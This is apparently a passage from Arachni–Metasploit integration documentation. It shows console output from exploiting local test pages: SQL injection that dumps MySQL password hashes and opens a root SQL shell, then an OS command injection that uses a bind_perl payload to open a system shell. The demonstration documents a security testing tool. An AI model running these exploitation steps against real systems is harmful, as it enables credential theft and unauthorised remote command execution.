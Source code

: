     database management system users password hashes:
    [*] debian-sys-maint [1]:
        password hash: *7AD474111CBF8492D9311D6E8493490ED6247D86
    [*] phpmyadmin [1]:
        password hash: *C3A70F18627A18967A3A70C0F648CDEE0BCE9AB2
    [*] root [1]:
        password hash: NULL

    available databases [5]:
    [*] arachni
    [*] information_schema
    [*] msf
    [*] mysql
    [*] phpmyadmin

    sql-shell> CURRENT_USER()   # And we now have an SQL shell to play with!
    do you want to retrieve the SQL statement output? [Y/n]
    CURRENT_USER():    'root@localhost'
    sql-shell> VERSION()
    do you want to retrieve the SQL statement output? [Y/n]
    VERSION():    '5.1.49-1ubuntu8'

    sql-shell> q

    [*] shutting down at: 15:09:07

    [*] Auxiliary module execution completed
    msf auxiliary(arachni_sqlmap) >

Of course 'arachni_manual' is not limited to any one module.
For example:
    msf auxiliary(arachni_sqlmap) > arachni_manual 15   # Prepare the vulnerability with ID '15'
    [*] Using unix/webapp/arachni_exec .
    [*] Preparing datastore for 'OS command injection' vulnerability @ 127.0.0.1/~zapotek/tests/links/os_command.php ...
    SRVHOST => 127.0.0.1
    SRVPORT => 9033
    RHOST => 127.0.0.1
    RPORT => 80
    LHOST => 127.0.0.1
    LPORT => 11853
    SSL => false
    GET => os_command=XXinjectionXX
    METHOD => GET
    COOKIES =>
    HEADERS => Accept=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8::User-Agent=Arachni/0.2.1
    PATH => /~zapotek/tests/links/os_command.php
    [*] Done!
    PAYLOAD => cmd/unix/bind_perl
    msf exploit(arachni_exec) > exploit # rock it!

    [*] Sending HTTP request for /~zapotek/tests/links/os_command.php
    [*] Started bind handler
    [*] Command shell session 17 opened (127.0.0.1:45295 -> 127.0.0.1:11853) at 2010-10-29 15:13:48 +0100   # And we now have a system shell!
